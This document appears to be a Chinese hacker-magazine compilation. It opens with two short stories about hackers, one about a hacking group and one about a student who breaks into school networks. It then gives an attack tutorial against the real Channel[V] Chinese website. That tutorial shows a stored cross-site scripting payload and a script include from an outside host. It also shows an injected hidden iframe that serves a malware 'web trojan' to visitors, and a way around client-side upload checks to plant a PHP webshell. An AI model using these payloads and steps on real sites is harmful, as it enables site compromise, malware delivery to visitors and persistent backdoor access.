组织里的攻击一直都很平静顺利，我知道这只不过是暴风雨前的预兆，有些兴奋这场暴风雨的来临，至少可以给平淡无奇的人生带来一点有难度的趣味。果然不久之后网警开始注意我们这个组织的一切行动了，他们开始把一个叫做“黑眼”的监视软件安装在一些中日合资公司的官方网站或者日本各个公司的网站内。这样一来，我们攻击的目标要么有所改变，要么就要重新开发软件和更改入侵软件的数据来躲避“黑眼”的追踪。当然我们选择前者，其实组织里关于技术的事情都是我来决定的，但是入侵哪家公司却是他们决定。我们的分工很明确，我不想败在谁的技术之下。

组织的老大阿米曾经说过，我们在玩火，即便注定是一只飞蛾，也会向着那最光亮的地方飞去，哪怕明知道一定会是化为灰烬的结果，也从来不懂得回头。因为，我疯了！我想是的，如果不是的话，为什么我会跟公司请半个月的病假而在家里只对着电脑、泡面和香烟呢？

雅美在那段时间经常光顾我的猪窝，帮我打扫，帮我做饭，但是那时候我吃不出来饭是什么味道，因为我全部的精力根本就不在那里。我也偶尔会把雅美抱在怀里，跟她讲老大他们的英雄事迹。看着我眼神一刻也不肯离开电脑，雅美叹息地说：“难道，这就是你所谓的重要事项？难道对于事业你就不能上一点心吗？难道我在你眼里只是空气吗？”我沉默地看着电脑，直到雅美关上门的那一刻，我都没有告诉她，空气对我来说很重要，因为离开它一秒钟我都会窒息的，但是空气存在的时候都是毫无痕迹的，只是默默地在唇齿之间流连。

## 朦隐仙踪

人生也许本来就是充满戏剧性的，闹剧会不断地上演。当我看到公司网站的名字位于入侵榜首的时候我有点发傻地呆在了那里。我第一次开始迷茫，是为了前途拯救公司，还是为了梦想一起和组织毁掉我的工作呢？烟很快就被我抽掉了，整整三包，可是我还在迷茫地选择之中。那天晚上他们入侵的时候我看着电脑黑色的屏幕，像是我的人生一般，我不知道该怎么说这样的结局，是我这么多年来执着出了错，还是梦想与现实的冲突。那夜，我眼睁睁地看着时间一点点地流逝。第二天准时起床上班，我不知道昨天晚上他们的入侵是不是成功了，因为公司里慌乱的景象和老总愁眉苦脸的样子已经告诉了我，他们成功了。而且使用着我编写的软件顺利地躲过了网警的追踪。“夜里哭泣的猫”一时间在公司里声名大噪，每一个人都知道有一个叫“黑暗使者”黑客组织的署名为“夜里哭泣的猫”的黑客入侵了公司。不久之后雅美和公司老总非常不给面子地把网警带进了我的办公室。

我明白事情泄漏了，但是如果网警真的掌握了什么证据的话，就不会这么客气地走进我的办公室，而应该直接把我拷走，手铐戴在我的手上了。所以我保持了沉默，网警软硬兼施，而我却一直保持着最初的笑容，大脑里不断地思考着到底谁出卖了我。网警最后离开的时候对我说：“我明白你们这一群人的想法和看法，你们把自己看得很伟大。但是做任何事情不要太过火，其实我们早就注意你们了。我们也不想深究，只是你们的行动越来越大胆，给别人的网站造成的损失也越来越大，适可而止吧！”

虽然网警以没有确凿证据为由放过了我，但是我仍被公司除名了，而“夜里哭泣的猫”也成为网警头号的通缉犯。梦想与现实一瞬间在我的眼前坍塌。我踏着三年来我在公司的一切，被所有人指指点点地迈着沉重的脚步。不知道怎么地被雅美拉进了会计室，面对雅美的眼泪我没有怨恨，她也许是不得已才把网警带进办公室的，这怎么能怪她呢？雅美抱着我，泣不成声地说：“对不起，我真的不知道你就是‘夜里哭泣的猫’，也不知道你是‘黑暗使者’，对不起，要不然我是不会报警的……”她还说了什么我都已经听不见了。我只是把雅美的眼泪留在了身后很远的地方。我爱她，但我和她却注定是属于两个世界的。

在后来的这段时间里我反省了很多，想想真正研究黑客技术的原因是为了默默发泄还是为了达到一种自我的心理满足。我的消失就像人间蒸发一样，可是时间也不能给我一个完整的答案。我以为我可以消失得很彻底，像一个正常人那样有白天黑夜一样的生活，但是我发现我错了，我不可能做到那样。在MSN上我碰到了组织里的人，他们没有说任何安慰的话，只是说：我们这么做是为了提高技术，用我们手中掌握的技术做到自己为祖国应尽的责任，无法确定我们这样做是不是正义的，或许我们是在错误中寻找正确的方式。

关上电脑我明白了，这么多年我不是没有目标地行走，只是把目标隐藏在黑夜的身后。

深夜两点，我终于把一个网名叫“夜里哭泣的猫”的故事写完了。我把文章传给他看了一遍。他出奇地满足，说也许只有我才会把他的故事描写得这么真实。我在电脑这一边傻傻地笑了笑。他下线了，我知道他会永远消失在这个网络世界里。他需要的只是讲述，也许他再也不会在我的视野里出现，也许某一天即使他出现了我也不会知道；但是他也许不知道我的MSN上每天晚上都会有一个网名叫“夜里哭泣的猫”的网友跟我讲着和他相同的悲伤或者快乐。

人生路上总会有很多坎坷出现，有人奋力挣扎，有人放弃前进，无论怎么走，都曾经历过痕迹。那一片足迹也许就是你要的见证。那么，请不要躲在黑夜后面哭泣，这样的夜晚你应该是在安逸地入睡。


看着电脑上高老师发过来的留言，飞莲有些吃惊，什么时候学校里出现了一个黑客高手而她却一点儿也不知道呢？连高老师的电脑都被入侵了，看来这个神秘的家伙确实不简单。想入侵高老师的电脑可不是这么简单的，高老师对于编写病毒和木马还是很有一套的，即使在网络入侵方面称不上太高的高手，可也不是一般菜鸟所能比的。飞莲曾经想过到高老师的电脑里去游玩过一回，可这个想法终究没有实现，没想到却被这个家伙捷足先登了。好胜的飞莲自然不会服气，真想和那个家伙好好地较量一下，可是最重要的是要有机会！

正想着的时候，高老师在MSN里大喊大叫说电脑里保存的成绩单也被翻阅了。飞莲觉得有些好笑，没想到一向沉稳的高老师也会如此心浮气躁。飞莲小心地安慰着，可是谈到最后高老师竟然语重心长地说道：“飞莲啊，你说你一个女孩子怎么会喜欢玩这个呢？不要动不动就黑人家电脑，入侵网站，你这个好学生，报警的话是要扣学分的……”天哪，高老师不会怀疑我就是那个在他地盘里捣乱的家伙吧！飞莲感到有一丝委屈，但是却也没有办法，因为在高老师的眼里能够入侵他电脑的也就只有飞莲了。为了还自己一个清白，飞莲发誓一定把那个家伙揪出来！

飞莲思维并用，软硬兼施地逼迫校园网站的站长放出风去，说校园网站的安全性是经过国内黑客高手专门设置过的，至今还没有任何人及任何软件能够入侵并拿到管理员权限，并在最后发出“挑战书”希望各路来客能够赐教。

接下来，飞莲就开始在网站服务器上忙碌起来，一口气给服务器安装了一个扫描报警程序、一个防注入程序以及一个IP跟踪程序，另外还专门架设了一个蜜罐程序，伪装了21、80、1433、3306、3389等端口，并将访问日志文件定时自动地备份至另一内部电脑中，设置完所有的一切后才满意地松了口气，只留下站长惴惴不安地在一边瞧着，却云里雾里地根本搞不清楚飞莲在忙啥。

这下飞莲可有事情做了，几乎二十四小时一动不动地盯着电脑屏幕监守着，一双漂亮的大眼睛仿佛就要掉到电脑里去了。可一连几天网站都安然无恙，倒是飞莲却一天天地憔悴下去了，脸也变黄了，痘痘也重出江湖了，连眼圈也跟大熊猫结亲了。终于在一天中午飞莲光荣地倒在床上蒙头大睡了两个多小时，可醒来后的飞莲真的要气坏了，只见网站首页上一片漆黑，上面几个血红色的大字写着：这是小小的教训，你的网站漏洞百出，还敢说这样的大话。飞莲，祝贺你的失败。落款是“神仙”。飞莲连忙检查了扫描报警程序以及网站访问日志文件，可是所有的文件都非常正常，根本就找不出对方是如何进来的，甚至于网站内的所有文件也都没有作过任何的改动。

一连几天，飞莲都是在愤怒及思索中度过的，她真的不服气也更不愿意承认就这么没面子地彻底输掉。看来那家伙已经知道自己在注意他了，所以飞莲决定改变策略，利用社会工程学来找出这个讨厌的家伙。于是飞莲没事就跑到计算机系去闲逛，打听一下谁是计算机系的龙头，但是打听的结果让飞莲很失望。那几个打听出来的老大居然都是自己手下的败将。

回到寝室的飞莲无力地躺在床上，脑子里想到的全是那个该死的“神仙”黑客。生气的时候飞莲甚至忍不住去捶打枕头。飞莲打开了自己的电脑，可更令她生气的一幕出现了，只见电脑原来默认的蓝色桌面被换成了一个黑色的桌面，而且桌面中央同样有几个血红色的大字：飞莲，调查我可不是一件容易的事情哦，努力呀！落款还是“神仙”。“啊……”飞莲大叫一声，气得把桌子上的茶杯照着电脑屏幕就砸了过去。还好，就在茶杯即将接触电脑屏幕的一刹那，茶杯终于停住了，毕竟显示器砸坏了可就没法子上网了呀。

从那以后飞莲变得老实多了，少了很多张扬，也不再和计算机系的学生去比谁的技术更厉害了，更多的是在啃那些电脑书籍。飞莲真的不能相信自己会败得这么惨。每天飞莲都会在电脑桌面上看到不同的留言，比如：“知道吗？飞莲小笨蛋，计算机不是全部，计算机是要建立在知识丰富的基础上的。”“该睡觉的时候，怎么还在亮着灯看书啊！”“如果想赢我，必须先找到我，如果这次你考得不是全年级的前十名，我是不会和你做任何较量的。”飞莲看到这些桌面上的字就有气。为了能和这个“神仙”真正地比试一下，飞莲不得不跟平时看着就头疼的书本来上一次最亲密的接触。飞莲有时在想，如果当初要是这么认真学习的话，现在早已经在学校里名扬一时了。虽然现在也是名声大噪，但是那是因为电脑的原因。不过现在不学习也不行了，电脑已经被“神仙”重新设置了开机密码，飞莲尝试破解了很多次都没能成功，所以在漫漫长夜里，也只好以书为友了。

飞莲有时也会跑到网吧里整夜都坐在电脑前上网，不过飞莲每次到网吧上网都会悄悄地中止网吧管理软件而免费上网，倒不是因为想赖那几元钱上网费，只是飞莲觉得一个黑客如果花钱上网的话是很丢人的。这天飞莲照常来到网吧，就在快要入侵成功网吧服务器的时候，突然主机的报警器响了起来，吓得飞莲忙重启了电脑。一个女孩子，要是被网管发现在网吧里干不好事而免费上网的话，恐怕传出去可不怎么好听。听到报警声，网管连忙跑了过来好奇地检查了一番，却什么也没有发现。几分钟后，飞莲又换了另一种方法来尝试入侵网吧的服务器，可就在入侵成功的同时，报警器再一次大声响了起来。吓得飞莲再一次重启了电脑，就在系统重新启动好后，网吧主机突然向飞莲发送了消息过来：“飞莲，不要嚣张，黑客技术不是用来干这些事情的。——神仙”。怎么可能？难道他也在网吧里？想到这儿，飞莲突然有了莫名的兴奋和紧张，她站了起来望向网吧四周，只见玩网游的忙着玩网游，聊天的在忙着聊天，看电影的在聚精会神地看着电影，一个可疑的人物也没有。飞莲只好悻悻地下了机，回寝室继续看她的书。

飞莲把她摸电脑的唯一希望都寄托在上微机课了，每天都在望眼欲穿地看着课程表，就是要等到微机课的到来，每到这一天飞莲都会连奔带跑地赶到微机室，手指敲击键盘的感觉实在是太令她兴奋了。一个礼拜了可算是碰到电脑了，那感觉是多么惬意啊！

虽然可以使用电脑了，但是微机室里的电脑只开放了课程的学习权限，不允许上QQ和MSN，也不允许下载任何别的工具，没有木马，没有溢出程序，也没有其他的黑客工具，实在是无聊。突然，飞莲发现电脑没有禁用USB设备。那一刻，飞莲就像发现新大陆一样，她连忙取出自己的MP3接了上去，从MP3里复制了几个工具过去。接下来，她轻车熟路地使用本地溢出程序顺利地获得了自己这台电脑的管理员权限，然后开始使用其他的黑客工具对整个网络进行了扫描，让飞莲吃惊的是在网络中居然还有一个家伙在闲逛着。飞莲有种预感，似乎这个人就是“神仙”。在飞莲发现这个人的同时，同样对方也发现了她，飞莲连忙抓住那份短暂的瞬间记下对方的IP地址，可是查到的结果却让她吓了一跳，居然就是自己寝室里的那一台电脑。正当飞莲又气又惊的时候，那个人已经从网络里消失得无影无踪了，一点痕迹也没有留下。

“飞莲你给我过来！”不知何故，讲堂上的高老师生气地喊着。飞莲连忙跑了过去。还没等老师说话，飞莲一看电脑就明白发生了什么了。原来高老师的电脑屏幕一片漆黑，上面有几个血红色的大字：哈哈，我在控制着整个网络，你奈我何？更让人吃惊的是落款竟然是飞莲。飞莲的嘴巴张得老大，半天也合不上。只听高老师强压着怒火说道：“飞莲啊，你也太调皮了。就算是会点技术也不用这么嚣张吧，你居然玩到老师的头上了？……”飞莲又气又急，真是哑巴吃黄连有苦说不出。

回到寝室，只见打开的电脑上一片漆黑，又是几个血红色的大字：服吗？落款仍然是“神仙”。飞莲跌坐在椅子上，呆呆地苦笑着。看来自己必须要勇于承认失败了，而且是输得心服口服无话可说。这家伙真的跟神仙似的，找不到头绪，凡人和神仙斗还有什么好说的呢？

预考结束了，飞莲一直都在担心着自己的成绩，无聊地打开电脑，只见桌面上是粉红色的，而且有着蓝色的花瓣在飘动。上面有一些留言：“飞莲，你确实是好样的，恭喜你在年级考试中获得了第六名，希望你以后会更加地努力。我们拥有的技术不是用来较量的，就像唱歌从来都不是用来比赛的，那是一种精神的享受；练武的人从来都不是用来打斗的，只为身体强健能保护自己。而我们只是负责把技术继续发展下去，不断地提高，用来帮助别人而存在的。你在学校里经常入侵校园的网络以及入侵别的同学的电脑等很多事情都是你不应该做的，而且还荒废了学业，你虽然在这方面很有天赋，但是注意也要有一个良好的心态。接下来的日子我希望你在这方面和学习都是双赢的。我们一起努力吧。加油，飞莲！”

落款竟然是高老师，飞莲惊讶得差点没从椅子上蹦起来，但是仔细回味，突然觉得这段时间自己在很多方面都已经有了很大的进步。至少她不像曾经那样轻狂骄傲了。因为她知道了人外有人，天外有天，看来真要端正自己的心态了。

最后，飞莲笑着给高老师回了封感谢信，顺便还想告诉高老师，她输得很快乐！

## 和我一起去看Channel[V]

（配图文字）LET'S GO CRAZY [V]  
作者：网络三剑（W.S.T）



认识李晨吗？看过Channel[V]吗？不认识？没看过？那总看过一些MTV吧，在MTV的画面右上角那个[V]的符号总该记得吧！对，这就是Channel[V]的台标！我每次放学回家都是只看这一个频道（卫星频道），它是一个音乐台，每天都放MV哦！今天呢，我们一起来看看它的网站安全做得怎么样呢？Let’s Go……

打开IE，输入Http://www.vchinese.com/，页面做得很华丽，搭配上忧郁的蓝色，增添了几分神秘气息，如图1。主页上原来都是HTML页面，现在换成了PHP脚本！这些PHP脚本将单引号和空格什么的都统统过滤了（Channel[V]嘛！哪那么容易搞，你以为是互联星空啊！），我打开一个新闻页面，看完新闻后，在页面的下面看到有个“发表评论”的地方，想到了什么？没感觉？不是吧！？现在不是很流行跨站吗？咱也来跨一下，输入<() >，点击发表，看看系统有没有把这些字符过滤了。成功发表，再查看源文件（点击IE中的“查看”，再点“源文件”），发现我们的代码都完整整地被输出了！哈哈，这个地方有跨站漏洞哦！我们来测试一下，在输入框中输入`<script>alert('我是闹币')</script>`，如图2，再点击发表。

这时能看到我们可爱的小框框已经弹出来了（图3）！嘿嘿！大家再来看一下它的网页源代码（图4），我发现在这个发表的地方限制了长度，允许输入的字符不够，该怎么办呢？看俺的，把网页保存下来（点击IE中的“文件”，再点“另存为”，全部保存就好）。我们用记事本打开保存下来的HTM网页文件，先来到发表评论的代码处（搜索“发表评论”会直接带到我们想去的地方），发现它的限制长度为38，我们就改成380！不够用？汗……那就改成3800吧！这下够用了吧！再把下边的action地址补全，就是把它的相对路径改成绝对路径！然后存盘退出！我们再用刚才打开新闻页面的那个IE窗口打开我们修改好的文件，然后我们就可以想发表多长就多长了！但是我感觉这样有点麻烦，而且都会在评论栏里出现空空的“评论”。不过，我们引JS来跨站，还可以挂马哦！

```javascript
<script src="http://54jj.cn/mm.js" type="text/javascript"></script>

// 修改 mm.js 示例
document.write('<IFRAME marginWidth=0 marginHeight=0 src="http://你的网马地址" frameBorder=0 width=0 scrolling=no height=0 topmargin="0" leftmargin="0"></IFRAME>');
```








## 一个人的战争

我们再去看看别的系统，Club 系统挺火的，我们先去注册一个 ID。登录后可以直接发表帖子，而且可以上传附件哦。我看到他们的 Club 系统使用的是 JSP 语言，那我们就传个 JSP 木马吧。上传成功了！好高兴啊！没想到 Channel[V] 的 Club 系统竟这样被我们搞定了？！可是……当我打开 JSP 木马地址的时候，竟出现了如瀑布一般的代码，好失望啊。再看看 IE 中的地址栏，发现我们上传的文件路径很奇怪，看来管理员已经把这个目录的执行权限给删除掉了。还是不死心，我又上传了 ASP、PHP、CGI 几种木马，但是无一幸免，都无情地显示出了源码。又经过我 N 个小时对 Club 系统的检测，一无所获，只好撤退！

对了，主页上的登录框我们还没看呢，说是登录“我的 V 空间”哦。注册个用户进去看看，3 分钟后成功进入（图5），发现这个 V 空间里可以发表自己的文章、音乐、照片，还可以做 BLOG 用呢！而且他们的 VJ 都有 V 空间哦！我们来看看上传照片这部分，打开我的相册，填好简单的说明，然后选择一个木马。因为它的 V 空间使用的是 PHP 语言，我们就传个 PHP 木马吧，希望不是 Club 那样的结果，阿门！点击上传按钮，立马就跳出来一个错误对话框（图6），说只能上传 jpg、gif 格式的图片文件。可是我的网速没有那么快哦，那就是本地验证了！嘿嘿！有想法没？对，把网页文件保存下来，再用记事本打开修改，把上传代码处限制上传后缀的地方改掉，我这里就把 JPG 改成了 PHP（图7），然后再把 action 的提交路径填写好（图8）。它本来使用的是相对路径，现在我们要从外部提交，所以要把它的 URL 地址填写完整！





注意，有的网站要用你刚才打开的他们页面的 IE 窗口来打开我们修改的网页文件，因为他们可能做了其他限制验证。因为 Channel[V] 没有做这方面的限制，我们选择好要上传的 PHP 木马，点击上传，成功喽（图9），而且还露出了文件的绝对路径！



